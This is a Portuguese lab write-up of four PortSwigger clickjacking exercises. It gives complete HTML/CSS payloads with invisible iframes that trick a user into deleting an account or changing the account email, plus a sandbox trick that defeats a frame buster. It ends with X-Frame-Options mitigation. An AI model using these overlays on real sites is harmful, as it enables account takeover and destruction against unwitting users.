



# **Clickjacking | Sonael de A. Angelos Neto**

## **• Introdução a vulnerabilidade de Clickjacking**

### **◦ O que é?**

 Clickjacking é uma técnica de ataque que permite que um atacante engane um usuário a clicar em um botão ou link em uma página web que não é o que o usuário espera. O atacante pode usar essa técnica para enganar o usuário a executar ações indesejadas em um site legítimo, como transferir fundos de uma conta bancária ou alterar as configurações de privacidade.

### **◦ Como funciona?**

 O atacante cria uma página web que contém um botão ou link que aponta para um site legítimo. O atacante então envia essa página para o usuário, que a visualiza em um navegador. O atacante usa o CSS para ocultar o botão ou link e, em seguida, usa o JavaScript para redimensionar a página para que o botão ou link fique sobre uma página legítima. Quando o usuário clica no botão ou link, o navegador envia o evento de clique para a página legítima, não para a página do atacante. O atacante pode usar o evento de clique para executar ações indesejadas no site legítimo.

---

### Nesse documento, iremos explorar a vulnerabilidade de `Clickjacking`, utilizando **8** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

- #### ***Basic clickjacking with CSRF token protection.***
- #### ***Clickjacking with form input data prefilled from a URL parameter.***
- #### ***Clickjacking with a frame buster script.***
- #### ***Multistep clickjacking.***

---


## **• Basic clickjacking with CSRF token protection.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Delete account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `Clickjacking`.

O laboratório disponibiliza um `exploit server` onde é possível fazer o ataque:


No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html

    <style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
        
        div {
            position: absolute;
            top: 580px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a9000e8049d6309c015137f00c40080.web-security-academy.net/my-account"></iframe>

```

O objetivo aqui é fazer com que a `div` fique sobre o botão `"Delete account"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Delete account"`, induzindo o usuário a deletar sua conta.

Utilizando o:

```css

    opacity: 0.3;

```

poderemos deixar o `iframe` transparente, para poder fazer os ajustes de forma que a div fique sobre o botão `"Delete account"`. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição da div para que ela fique sobre o botão.	



No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

    <style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
        
        div {
            position: absolute;
            top: 580px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a9000e8049d6309c015137f00c40080.web-security-academy.net/my-account"></iframe>

```

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• Clickjacking with form input data prefilled from a URL parameter.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update email"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `Clickjacking`.

O laboratório disponibiliza um `exploit server` onde é possível fazer o ataque:


No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html

    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450px;
            left:80;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0ac5001603e1731dc069dba500e20009.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Como no laboratório anterior, o objetivo aqui é fazer com que a `div` fique sobre o botão `"Update email"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Update email"`, induzindo o usuário a atualizar seu email.

Porém, nesse laboratório, o campo de input `email` precisa ser preenchido com o email do atacante, para que o ataque seja bem sucedido. Para isso, iremos utilizar o parâmetro `email` da URL no `src` do `iframe`.

```html

    <iframe src="https://0ac5001603e1731dc069dba500e20009.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Utilizando o:

```css

    opacity: 0.3;

```

poderemos deixar o `iframe` transparente, para poder fazer os ajustes de forma que a div fique sobre o botão `"Update email"`. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição da div para que ela fique sobre o botão.


No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ac5001603e1731dc069dba500e20009.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.



---

## **• Clickjacking with a frame buster script.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update email"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `Clickjacking`.

O laboratório disponibiliza um `exploit server` onde é possível fazer o ataque:


No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html
    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450;
            left:80;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe sandbox="allow-forms"
    src="https://0abc001d038ec2c4c20785150054003e.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Seguindo o modelo dos laboratórios anteriores, o objetivo aqui é fazer com que a `div` fique sobre o botão `"Update email"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Update email"`, induzindo o usuário a atualizar seu email.

Porém, nesse laboratório, teremos que usar:

```html

    <iframe sandbox="allow-forms"
    src="https://0abc001d038ec2c4c20785150054003e.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

para que o `iframe` não seja bloqueado pelo `frame buster script` que está presente no laboratório.

O `"sandbox='allow-forms'"` permite que o `iframe` tenha acesso ao formulário burlando o `frame buster script`, e assim, possa enviar o email do atacante para o campo de input `email`.


Utilizando o:

```css

    opacity: 0.3;

```

poderemos deixar o `iframe` transparente, para poder fazer os ajustes de forma que a div fique sobre o botão `"Update email"`. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição da div para que ela fique sobre o botão.


No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:450;
            left:80;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe sandbox="allow-forms"
    src="https://0abc001d038ec2c4c20785150054003e.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• Multistep clickjacking.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Delete account"`, porém, ao clicar nele, é necessário confirmar a ação com o botão `"yes"`:


portanto será necessário que o usuário clique nos dois botões para que a conta seja deletada.

O laboratório disponibiliza um `exploit server` onde é possível fazer o ataque:


No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html
    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:580px;
            left:40px;
            z-index: 1;
        }
    .secondClick {
            top:380px;
            left:215px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a9800cc03846ba6c01e0a09001400cd.web-security-academy.net/my-account"></iframe>

```
Nesse laboratório usaremos duas `divs` para que o usuário clique nos dois botões, e assim, a conta seja deletada.

O primeiro passo é fazer com que a `<div class="firstClick">Click me first</div>` fique sobre o botão `"Delete account"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Delete account"`, induzindo o usuário a deletar sua conta.

Já o segundo é fazer com que a `<div class="secondClick">Click me next</div>` fique sobre o botão `"yes"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"yes"`, fazendo com que o usuário confirme a deleção da conta.


Utilizando o:

```css

    opacity: 0.3;

```

poderemos deixar o `iframe` transparente. Então utilizando as propriedade `top` e `left`, iremos ajustar a posição das divs para que elas fiquem sobre os respectivos botões.

1ª div | 2ª div 
:---------: | :------:
 |

No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:580px;
            left:40px;
            z-index: 1;
        }
    .secondClick {
            top:380px;
            left:215px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a9800cc03846ba6c01e0a09001400cd.web-security-academy.net/my-account"></iframe>
```

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• Mitigação.**

Para mitigar o ataque de clickjacking, devemos utilizar o `X-Frame-Options` no cabeçalho da resposta HTTP.

O `X-Frame-Options` é um cabeçalho HTTP que indica se uma página pode ser renderizada em um `<frame>`, `<iframe>`, `<embed>` ou `<object>`.

Existem três valores para o `X-Frame-Options`:

- `DENY`: Não permite que a página seja renderizada em um frame.

- `SAMEORIGIN`: Permite que a página seja renderizada em um frame se o frame for da mesma origem que a página.

- `ALLOW-FROM`: Permite que a página seja renderizada em um frame se o frame for da mesma origem que a página ou de uma origem especificada pelo `ALLOW-FROM`.

Podemos ver que o `X-Frame-Options` pode ser utilizado para mitigar o clickjacking, pois ele pode ser utilizado para indicar que uma página não pode ser renderizada em um frame, ou que pode ser renderizada somente se o frame for da mesma origem que a página.

---
## **• Dificuldades.**

A única dificuldade foi que eu normalmente utilizo o **Firefox** como navegador, porém os labs do **Web Security Academy** não funcionaram, então tive que utilizar o **Chrome**. =)

---

## **• Referências.**

- [OWASP - Clickjacking](https://owasp.org/www-community/attacks/Clickjacking)

- [OWASP - Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)

- [OWASP - X-Frame-Options](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Clickjacking#x-frame-options)

- [MDN - X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)

----

## **• Laboratórios.**

- [Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

- [Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)

- [Clickjacking with a frame buster script](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)

- [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)


